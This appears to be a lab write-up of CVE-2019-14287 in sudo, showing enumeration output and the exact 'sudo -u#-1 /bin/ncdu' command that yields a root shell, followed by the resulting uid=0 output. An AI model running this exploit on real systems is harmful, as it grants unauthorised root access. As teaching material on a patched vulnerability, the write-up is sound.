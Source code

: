 # CVE-2019-14287 - sudo - all versions below 1.8.28 (bug is fixed in sudo 1.8.28)

Vulnerability was found in 2019 that affected all versions below 1.8.28, which allowed privileges to escalate even with a simple command. This vulnerability has the CVE-2019-14287 and requires only a single prerequisite. It had to allow a user in the /etc/sudoers file to execute a specific command.

## Enumeration

```bash
$ sudo -V

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

```bash
$ sudo -l

Matching Defaults entries for student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
```

## Exploitation

```bash
$ sudo -u#-1 /bin/ncdu
...
```

![ncdu - spawn shell](images/ncdu_shell.png)

```bash
b
```

```bash
# id
uid=0(root) gid=1001(student) groups=1001(student)
```

## Links

- [Sudo Security adv](https://www.sudo.ws/security/advisories/minus_1_uid/)
- [GTFOBins](https://gtfobins.github.io/)
- [GTFOBins - ncdu](https://github.com/GTFOBins/GTFOBins.github.io/pull/417)
